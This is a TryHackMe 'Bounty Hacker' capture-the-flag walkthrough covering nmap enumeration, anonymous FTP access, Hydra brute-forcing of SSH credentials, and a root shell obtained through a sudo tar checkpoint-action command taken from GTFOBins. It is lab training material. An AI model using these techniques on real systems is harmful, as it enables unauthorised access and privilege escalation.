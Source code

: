 #     Bounty Hacker Walkthrough - Try Hack Me
![](https://i.imgur.com/wYxDzuh.jpg)

```You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future! ```
> **Task 1:** Living up to the title.
## Enumaration
### Nmap
```
┌─[r00t@parrot]─[~/THM]
└──╼ $sudo nmap -sC -sT -sV -A 10.10.7.209
[sudo] password for r00t: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-14 16:03 EAT
Nmap scan report for 10.10.7.209
Host is up (0.25s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.119.138
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Infomir MAG-250 set-top box (90%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (90%), Ubiquiti AirOS 5.5.9 (90%), Linux 5.0 - 5.4 (89%), Linux 2.6.32 - 3.13 (89%), Linux 3.3 (89%), Linux 2.6.32 (89%), Linux 2.6.32 - 3.1 (89%), Linux 3.7 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using proto 1/icmp)
HOP RTT       ADDRESS
1   277.97 ms 10.18.0.1
2   279.74 ms 10.10.7.209

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.68 seconds
```

We found three ports open that is port 21, 22 and 80.

For us to answer ```
Who wrote the task list? ``` We will have to connect to the system using FTP since it allows anonymous connections.

> NB: FTP is used to transfer files in a network between the client and server
# FTP Exploitation

![](https://i.imgur.com/aCo2qG6.png)

As we can see, we have access to our FTP. We can try and see what file are here using ```ls.```

![](https://i.imgur.com/YOAUOMY.png)

We see, there are two files. To get them in my machine, I will use ```get filename```

![](https://i.imgur.com/uWSUoMS.png)

Now I can exit and read the files downloaded and try to answer the question ```Who wrote the task list?``` 

![](https://i.imgur.com/vr9AJja.png)

As we can see, the author is ```-lin```

Next, we now answer the question ```What service can you bruteforce with the text file found?```
**Ans:** SSH
 
Next, is to get the ```user password```. We will use ```Hydra```, to bruteforce the ssh creds and have the file ```locks.txt``` as our wordlist.

![](https://i.imgur.com/zeb95pD.png)

# Gaining User
We now have the user password, we can now ssh into the target.

![](https://i.imgur.com/EOhjo9j.png)

I have successfully connected to the target.


Now, I can have ```user.txt```

![](https://i.imgur.com/Q4LzNvm.png)

Yaay we got user.

# Privilege Escalation
We can check what service we can run as super user using ``` sudo -l```
![](https://i.imgur.com/NgdoZdY.png)
Now as you can see, we have permission of tar as root.

After a little bit of research and googling, i found some exploit from [gtfoibins](https://gtfobins.github.io/gtfobins/tar/) on tar escalation

```sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh```

Using the exploit as root, Boom! we get root

![](https://i.imgur.com/gCkBlN3.png)

Now we can successfully get ```root.txt```

![](https://i.imgur.com/OFno54O.png)

Congratulantions , finally we solved the lab and thank you so much for your time, if you liked this writeup and you feel it’s helpful then please share it with your friends. 
Happy hacking!

